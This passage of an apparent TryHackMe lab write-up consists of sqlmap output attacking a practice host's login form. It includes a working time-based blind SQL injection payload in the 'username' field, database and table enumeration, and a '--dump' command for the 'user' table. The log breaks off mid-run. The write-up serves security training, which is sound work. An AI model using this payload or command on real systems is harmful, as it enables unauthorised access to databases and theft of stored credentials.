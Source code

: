 ```
[*] starting @ 20:48:34 /2022-09-04/

[20:48:34] [INFO] parsing HTTP request from '1.txt'
[20:48:34] [INFO] resuming back-end DBMS 'mysql'
[20:48:34] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=test' AND (SELECT 1720 FROM (SELECT(SLEEP(5)))imDO) AND 'CRGb'='CRGb&password=test&submit=submit
---
[20:48:35] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 13.04 or 12.04 or 12.10 (Quantal Quetzal or Raring Ringtail or Precise Pangolin)
web application technology: Apache 2.2.22, PHP 5.3.10
back-end DBMS: MySQL >= 5.0.12
[20:48:35] [INFO] fetching tables for database: 'THM_f0und_m3'
[20:48:35] [INFO] fetching number of tables for database 'THM_f0und_m3'
[20:48:35] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
[20:48:50] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
2
[20:49:03] [INFO] retrieved:
[20:49:09] [INFO] adjusting time delay to 2 seconds due to good response times
nothing_inside
[20:51:36] [INFO] retrieved: user
Database: THM_f0und_m3
[2 tables]
+----------------+
| user           |
| nothing_inside |
+----------------+

[20:52:16] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/ip.thm'
```

```
sqlmap -r 1.txt --batch --dump -D THM_f0und_m3 -T user
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.6.7#stable}
|_ -| . ["]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 20:55:34 /2022-09-04/

[20:55:34] [INFO] parsing HTTP request from '1.txt'
[20:55:34] [INFO] resuming back-end DBMS 'mysql'
[20:55:34] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
```